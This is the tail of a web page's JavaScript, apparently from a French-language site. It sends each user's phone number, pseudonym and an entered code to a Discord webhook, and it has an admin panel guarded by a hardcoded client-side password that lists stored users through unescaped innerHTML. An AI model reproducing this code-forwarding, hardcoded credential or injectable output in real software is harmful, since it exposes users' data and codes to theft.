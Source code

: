     // Envoi webhook Discord
    sendToWebhook({
      event: "code_entré",
      phone: currentUser.phone,
      pseudo: currentUser.pseudo,
      code: code,
      timestamp: new Date().toISOString()
    });

    conf.style.display = "block";
    codeInput.value = "";
  }

  function toggleAdminSection() {
    const adminSec = document.getElementById('adminSection');
    if (adminSec.style.display === "block") {
      adminSec.style.display = "none";
    } else {
      adminSec.style.display = "block";
      document.getElementById('msgAdmin').textContent = "";
      document.getElementById('listeUtilisateurs').style.display = "none";
      document.getElementById('mdpPro').value = "";
    }
  }

  function validerAdmin() {
    const mdp = document.getElementById('mdpPro').value.trim();
    const msgAdmin = document.getElementById('msgAdmin');
    msgAdmin.textContent = "";

    if (mdp !== 'ans77z') {
      msgAdmin.textContent = "❌ Mot de passe incorrect.";
      return;
    }

    let users = JSON.parse(localStorage.getItem('users')) || [];
    if (users.length === 0) {
      msgAdmin.textContent = "Aucun utilisateur enregistré.";
      return;
    }

    const tbody = document.getElementById('tableBody');
    tbody.innerHTML = "";

    users.forEach(u => {
      const tr = document.createElement('tr');
      tr.innerHTML = `<td>${u.phone}</td><td>${u.pseudo}</td><td>${u.code || ''}</td>`;
      tbody.appendChild(tr);
    });

    document.getElementById('listeUtilisateurs').style.display = 'block';
  }
</script>

</body>
</html>
